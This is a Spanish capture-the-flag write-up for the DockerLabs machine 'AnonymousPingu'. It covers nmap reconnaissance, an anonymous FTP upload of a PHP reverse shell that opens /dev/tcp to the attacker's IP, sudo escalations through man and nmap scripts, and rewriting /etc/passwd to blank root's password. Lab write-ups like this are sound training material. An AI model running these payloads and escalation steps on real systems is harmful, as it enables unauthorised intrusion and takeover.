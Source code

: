 #MAQUINA #DOCKERLABS #FACIL 
#ABUSO_SUBIDA_ARCHIVOS
#FTP_ANON
<hr>

# RECONOCIMIENTO

Vamos a resolver **AnonymousPingu** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:46 CET
Initiating ARP Ping Scan at 12:46
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:46, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:46
Scanning 172.17.0.2 [65535 ports]
Discovered open port 21/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:46, 0.48s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-11-25 12:46:29 CET for 1s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.69 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **21(FTP)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p21,80 172.17.0.2                             
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:47 CET
Nmap scan report for 172.17.0.2
Host is up (0.000024s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 0        0            7816 Nov 25  2019 about.html
| -rw-r--r--    1 0        0            8102 Nov 25  2019 contact.html
| drwxr-xr-x    2 0        0            4096 Jan 01  1970 css
| drwxr-xr-x    2 0        0            4096 Apr 28  2024 heustonn-html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 images
| -rw-r--r--    1 0        0           20162 Apr 28  2024 index.html
| drwxr-xr-x    2 0        0            4096 Oct 23  2019 js
| -rw-r--r--    1 0        0            9808 Nov 25  2019 service.html
|_drwxrwxrwx    1 33       33           4096 Apr 28  2024 upload [NSE: writeable]
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Mantenimiento
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.74 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-25 12:48 CET
Nmap scan report for 172.17.0.2
Host is up (0.0000030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
|_  /upload/: Potentially interesting directory w/ listing on 'apache/2.4.58 (ubuntu)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Podemos sacar dos cosas importantes:
+ El puerto **21 (FTP)** es vulnerable a **ftp-anon** -> entrar con usuario anonymous sin necesidad de poner contraseña.
+ En el puerto **80(HTTP)**, hay un directorio de **upload** que también hay en el directorio de FTP.

## FTP(21)

Al entrar con el usuario **anonymous**, podemos ver que podemos subir cosas.

# EXPLOTACION

Subimos una reverse shell en php:

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

Y nos ponemos en escucha:

   ```bash

nc -nlvp 443

```

Al entrar desde el servicio web al directorio upload y a la shell, como interpreta php, nos da una shell.

# ESCALADA PRIVILEGIOS

Vemos si el usuario tiene permisos SUDO:
   ```bash
www-data@4095cd4053b8:/var/www/html/upload$ sudo -l
Matching Defaults entries for www-data on 4095cd4053b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User www-data may run the following commands on 4095cd4053b8:
    (pingu) NOPASSWD: /usr/bin/man

```

Vemos **man** con permisos SUDO para usuario pingu :
   ```bash
sudo -u pingu man man
!/bin/sh

```
YA ESTAMOS COMO PINGU

Vemos si el usuario tiene permisos SUDO:
   ```bash
pingu@4095cd4053b8:/var/www/html/upload$ sudo -l
Matching Defaults entries for pingu on 4095cd4053b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User pingu may run the following commands on 4095cd4053b8:
    (gladys) NOPASSWD: /usr/bin/nmap
    (gladys) NOPASSWD: /usr/bin/dpk

```

Vemos **nmap y dpk** con permisos SUDO para usuario gladys :
   ```bash
   
pingu@4095cd4053b8:/tmp$ echo 'os.execute("/bin/sh")' > ex 
pingu@4095cd4053b8:/tmp$ sudo -u gladys nmap --script=ex

```
YA ESTAMOS COMO GLADYS

Vemos si el usuario tiene permisos SUDO:
   ```bash
gladys@4095cd4053b8:/tmp$ sudo -l 
Matching Defaults entries for gladys on 4095cd4053b8:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User gladys may run the following commands on 4095cd4053b8:
    (root) NOPASSWD: /usr/bin/chown


```

Vemos **chown** con permisos SUDO y vamos a modificar el /etc/passwd para entrar sin contraseña:

   ```bash
#Cambiamos permisos
sudo chown gladys:gladys /etc
sudo chown gladys:gladys /etc/passwd

# Definir las variables
var1="root:x:0:0:root:/root:/bin/bash"
var2="root::0:0:root:/root:/bin/bash"

# Realizar la sustitución y escribir el resultado en un archivo temporal
sed "s#$var1#$var2#" /etc/passwd > passwd_tmp

# Reemplazar el archivo original con el archivo temporal
mv passwd_tmp /etc/passwd

su root
```

**YA ESTAMOS COMO ROOT.**